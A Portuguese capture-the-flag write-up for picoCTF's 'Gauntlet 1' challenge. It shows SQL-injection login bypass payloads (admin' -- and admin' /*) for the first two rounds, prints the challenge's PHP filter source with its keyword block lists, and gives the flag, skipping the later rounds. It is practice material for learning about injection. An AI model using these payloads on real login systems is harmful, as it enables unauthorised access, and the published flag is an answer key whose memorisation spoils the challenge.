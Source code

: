 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução

Ao acessar o site, somos apresentados a uma tela de login onde precisamos fornecer um nome de usuário e senha. O principal desafio aqui é descobrir como "burlar" a filtragem SQL para conseguir logar como o usuário "admin".

![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)

#### Análise Inicial:

Na página de login, ao tentar submeter credenciais genéricas, observamos que o sistema faz uma consulta SQL com base nas entradas fornecidas. O que nos chamou atenção foi que a consulta estava vulnerável a um SQL Injection. Aqui, começamos a explorar como explorar esse tipo de falha.

![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)

Round 1:
No primeiro round, a consulta SQL aceita o uso de comentários para ignorar a parte da senha. Isso foi feito utilizando o símbolo --, que serve para comentar tudo após ele na consulta.

Entrada:
```
Usuário: admin' --
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'
```

![image](https://github.com/user-attachments/assets/cfa0cf35-6072-4005-8687-220fffe93a8e)

Neste caso, a parte da senha foi ignorada devido ao comentário, permitindo o login com o usuário "admin".

Round 2:
No segundo round, foi possível observar que mais palavras-chave estavam permitidas na consulta SQL, como /*, outro tipo de comentário. A ideia era testar se podíamos usar esses novos filtros para burlar a autenticação.

Entrada:
```
Usuário: admin' /*
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin' /*' AND password='1'
```
O filtro continuou permitindo que a parte da senha fosse ignorada e o login fosse feito com sucesso.






icoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}



```
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?>
```

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
